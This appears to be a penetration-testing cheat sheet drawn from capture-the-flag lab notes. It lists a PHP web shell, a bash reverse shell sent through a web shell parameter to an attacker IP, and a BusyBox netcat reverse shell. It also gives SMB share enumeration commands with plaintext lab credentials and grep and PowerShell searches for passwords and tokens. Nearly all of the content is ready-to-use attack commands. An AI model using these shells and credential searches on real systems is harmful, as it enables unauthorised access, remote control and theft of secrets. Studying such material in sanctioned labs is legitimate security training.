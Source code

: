 ### Web Shell
```
<?php system($_GET['cmd']); ?>
```

### Reverse Shell as parameter for Web Shell in Burp

```
GET /uploads/10_10_14_10.php.gif?cmd=bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```

### Linux BusyBox Rev Shell 
```
busybox nc 192.168.1.10 4444 -e /bin/sh
```
- Use cases: nc unavailable / this is a linux all purpose shell

### CSRF
## SMB Enumeration

### NetExec

List SMB shares with valid creds
```
nxc smb 10.10.11.14 -u maya -p m4y4ngs4ri --shares
```

### SMBClient 

Unauthenticated - enum shares
```
smbclient -L //10.10.11.202/
```

Use SMBClient to read shares 
```
smbclient -U maya //10.10.11.14/Important\ Documents
```
- `mget *` to download everything

Linux: Grep for passwords in lots of files 
```
grep -rinE '(password|username|user|pass|key|token|secret|admin|login|credentials)'
```

Windows PowerShell: Search for all of those keywords (do not do this in C:\ drive)
Execute in C:\xampp
```
Get-ChildItem -Path . -Recurse -File | Select-String -Pattern 'passwordkey|admin' -CaseSensitive:$false
```

Read shares using valid user + pass
```
smbclient -U 'cicada/david.orelious%P@ssw0rd! //10.10.11.35/dev'
```

